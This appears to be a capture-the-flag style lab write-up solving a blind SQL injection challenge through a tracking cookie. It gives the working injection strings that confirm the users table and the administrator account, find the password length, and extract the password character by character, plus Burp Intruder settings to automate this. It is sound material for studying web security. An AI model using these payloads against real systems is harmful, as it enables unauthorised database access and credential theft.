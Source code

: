 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/234766625-5e8e25d3-387c-40d5-88b6-2c348a1ecb6b.png)

## Solution :


Request looks like 

![image](https://user-images.githubusercontent.com/67383098/234805007-50a73456-c90f-4288-a3bc-2b559e87e890.png)


Query made looks something like -

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```
where trackingID - `g2w1yAddN9LlERl3` Cookievalue - `xdpiZNiyUyxtsAfDKlsfxYJldM3xW576`

TrackingID parameter is vulnerable. This is a blind SQL injection since response is not diplayed back. 

We can perform a SQL  injection on trackingID parameter , 

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=1-- '
```

there maybe 2 results - TrackinID does/does not exist.

- Condition(1=1) = **TRUE** -> **Welcome back message is shown**

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=1-- '
```

![image](https://user-images.githubusercontent.com/67383098/234810681-972b65ca-014f-4906-aca9-5201cebea564.png)


- Condition(1=2) = **FALSE** -> **Welcome back message is not shown**

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=2-- '
```

![image](https://user-images.githubusercontent.com/67383098/234810921-cc49f440-dca7-4ba7-98ff-a5e4aa8e555d.png)


From the above responses, we can we can exploit the blind injection vulnerablitiy .

#### Conform that there is users table -

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'x' FROM users LIMIT 1) = 'x' --
```

```
This SQL statement is checking whether the result of a subquery, which selects the string 'x' from the users table with a limit of 1, is equal to the string 'x'. The use of the AND operator indicates that this condition must be true for the overall query to return any results

If users table  is there, then the condition return x . It checks if returned 'x' = 'x'. Now condition is TRUE. So it conforms that users table is present.
```

![image](https://user-images.githubusercontent.com/67383098/234817409-11451756-02b5-4822-8916-17e4b53f1065.png)

We see a *Welcome back* msg , so it conforms that there is a users table.

#### Conform that username administrator is present in users table -

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

![image](https://user-images.githubusercontent.com/67383098/234822414-89112d5b-720c-4688-b285-a9396bdbbd48.png)

We confirm that there is a user called `administrator` in the database.

#### Find the length password of administrator 

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

In particular, the subquery `(SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>1)` is attempting to retrieve the username of the administrator account whose password is longer than one character. If such an account exists in the database, the subquery will return the value "administrator".

The outer part of the string `AND (SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>1)='administrator'` is then attempting to compare this value to the string literal 'administrator'. If the subquery returns the value 'administrator', then the entire expression will evaluate to true.

![image](https://user-images.githubusercontent.com/67383098/234827083-97984765-77d1-46be-b72b-09f9923ff647.png)

This confirms that the password is greater than 1

If we send the value as  50 ie `' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>50)='a`  , we dont get any welcome message which means its not > 50  characters.

![image](https://user-images.githubusercontent.com/67383098/234827767-30367782-0bbe-4f38-8d2a-15635f1ae154.png)

Automate this -> 

1. Send request to Intruder
2. Add the password length part [> 1] 
3. Attack type - SNIPER
4. Payload type - Numbers
5. Give number range from 1-50

There is a difference in length at number 20, means that while checking `if length(password) > 20` it FAILS.

So the total **length of password is 20**.

#### Bruteforce the 20 character length password


Use the same query as above bu thios time we use the  **SUBSTRING** method `(SELECT SUBSTRING(password,1,1)` to get each letter of the password and loop through it  to check if 1st letter is =a/b/c ... & so on.

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator' AND LENGTH(password)>1 )='a'--
```
From the above command we take the 1st character of the password & check if it is = 'a'.
Check until the condition returns TRUE. Meaning the first character of password = letter/number at the right.

Automate this  -

1. Attack type - Cluster bomb
2. Payload 1 - length checking part [>1]
3. Payload 2 - character checking part ['a'--]
4. Payload 1 type - Numbers [range 1-20]
5. Payload 2 type - Bruteforcer [min & max length = 1]
















